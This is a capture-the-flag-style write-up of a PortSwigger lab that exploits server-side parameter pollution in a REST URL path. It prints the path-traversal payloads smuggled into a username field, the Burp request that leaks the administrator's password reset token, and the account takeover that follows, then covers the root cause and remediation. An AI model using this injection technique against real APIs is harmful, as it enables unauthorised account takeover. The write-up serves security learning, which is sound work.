


# Lab 05: Exploiting Server-Side Parameter Pollution in a REST URL

> **Topic**: API Testing Vulnerabilities
> **Lab Number**: 05
> **Platform**: PortSwigger Web Security Academy

## Category
API Security / Server-Side Parameter Pollution (SSPP) / Path Traversal

## Vulnerability Summary
This is the Expert-level version of SSPP. Instead of polluting query string parameters with `&`, the vulnerability lives in a REST URL path. The `username` parameter gets embedded into an internal API URL path, and by injecting `../` sequences we can break out of the intended path segment and inject our own path components — specifically `/field/passwordResetToken` — to hijack the password reset flow and get the admin's reset token.

## Attack Methodology

### Step 1: Find the Internal API
The forgot-password form sends a POST with a `username` parameter. Intercepted it in Burp and started playing with the value.

Added `../` sequences to the username until I got outside the API root:
```
username=../../../../openapi.json%23
```

The server returned the OpenAPI spec in an error message. Found the internal endpoint:
```
/api/internal/v1/users/{username}/field/{field}
```

So the backend builds a URL like: `/api/internal/v1/users/[USERNAME_VALUE]/field/[FIELD_VALUE]`

### Step 2: Understanding the Structure
The `{field}` part means there's a second parameter injected into the path. The normal flow uses `email` as the field. But if I can control the username value to inject path segments, I can change the field too.

### Step 3: Crafting the Path Injection Payload
The username parameter value needed to:
1. Break out of the current path segment using `../`
2. Navigate to the correct internal path
3. Inject `field/passwordResetToken` instead of `field/email`
4. Use `%23` (`#`) to truncate trailing garbage

Final payload:
```
username=../../v1/users/administrator/field/passwordResetToken%23
```

Breaking it down:
- `../../` — break out of two path segments
- `v1/users/administrator` — target the admin user
- `/field/passwordResetToken` — inject the field we want (reset token instead of email)
- `%23` — URL fragment to stop the rest of the URL from breaking things

### Step 4: Exploitation
Sent the request through Burp Repeater:

```http
POST /forgot-password HTTP/2
Host: 0ad300d8041888a084c1d8460076006f.web-security-academy.net
Cookie: session=aGhfn09lXxralKqtiBXVavwLwPEuW5hw
Content-Type: x-www-form-urlencoded

csrf=KjELPP2XV4PlGzDCPu8zjVdUAHCud5Ji&username=../../v1/users/administrator/field/passwordResetToken%23
```

**Response:**
```http
HTTP/2 200 OK
Content-Type: application/json

{
    "type": "passwordResetToken",
    "result": "bm6gjrlaeleim17i2qkeid5m9opmw5f1"
}
```

The API returned the admin's password reset token directly. No email sent, no waiting.

### Step 5: Account Takeover
Used the reset token to access the admin panel, reset the password, logged in, and solved the lab.




## Technical Root Cause

### The Path Building Logic

The backend probably does something like this:

```javascript
// ❌ Vulnerable - username goes directly into URL path
app.post('/forgot-password', async (req, res) => {
    const { username } = req.body;
    
    // Constructs: /api/internal/v1/users/[username]/field/[field]
    const url = `/api/internal/v1/users/${username}/field/${field}`;
    
    const response = await internalApi.get(url);
    res.json(response.data);
});
```

When `username` is `../../v1/users/administrator/field/passwordResetToken%23`, the constructed URL becomes:

```
/api/internal/v1/users/../../v1/users/administrator/field/passwordResetToken#/field/email
```

Which the server normalizes to:

```
/api/internal/v1/users/administrator/field/passwordResetToken
```

The `#` fragment makes everything after it get ignored, so `/field/email` that the app tries to append doesn't matter.

### Why This is Different from Lab 04

| Lab 04 (Query String) | Lab 05 (REST URL) |
|----------------------|-------------------|
| `&` injection creates new parameters | `../` injection navigates the path |
| Pollutes key-value pairs | Pollutes URL path segments |
| Easier to spot | Harder to detect — needs path traversal thinking |
| Works on form-encoded bodies | Works on any parameter that gets embedded into a URL path |

Both are SSPP, but the injection mechanism is different. This one requires understanding how the backend constructs URLs from user input.

## Impact

- **Full account takeover** — bypass email delivery entirely
- **Token leakage** — reset tokens returned directly in response
- **No rate limiting bypass needed** — works in one request
- **Admin compromise** — trivial to target any user including admins

**Severity: Critical**

The Expert rating makes sense here. This is harder to find because you need to:
1. Recognize the parameter goes into a URL path
2. Figure out path traversal works in this context
3. Discover the internal API structure
4. Know to inject `/field/{value}` pattern

## Remediation

### 1. Validate Username Input Strictly
```javascript
// ✅ Only allow alphanumeric usernames
const usernameRegex = /^[a-zA-Z0-9_]+$/;
if (!usernameRegex.test(username)) {
    return res.status(400).json({ error: 'Invalid username' });
}
```

### 2. Use Parameterized API Calls
```javascript
// ✅ Don't build URLs by string concatenation
const response = await internalApi.get('/users/:username/field/:field', {
    params: { username, field }
});
```

### 3. Path Segment Encoding
```javascript
// ✅ Encode path segments properly
const safeUsername = encodeURIComponent(username);
const url = `/api/internal/v1/users/${safeUsername}/field/${field}`;
```

### 4. Separate Internal API Access
```javascript
// ✅ Don't expose internal endpoints through user input
// Use a service layer that validates and routes properly
```

## Tools Used

- **Burp Suite Professional** — Repeater for testing payloads, Intruder for path traversal enumeration
- **Chromium** — Browser for the lab

## Lessons Learned

1. **Path traversal isn't just for files** — `../` works in REST URL construction too, not just file reads

2. **Error messages leak architecture** — The 500 error returned the full OpenAPI spec. Never dump internal API docs in error responses

3. **SSPP comes in flavors** — Query string pollution (`&`) and REST URL pollution (`../`) are the same vulnerability class with different syntax

4. **The `%23` trick is universal** — Using `#` to truncate trailing path data works in both contexts

5. **Expert labs deserve their rating** — This took way more thinking than the query string version. Had to map out the path structure first before crafting the injection

## References

- [PortSwigger: Exploiting server-side parameter pollution in a REST URL](https://portswigger.net/web-security/api)
- [OWASP API Security Top 10](https://owasp.org/API-Security/)
- [Path Traversal in URL Parameters - PortSwigger Research](https://portswigger.net/research)

---

*Writeup by vibhxr*
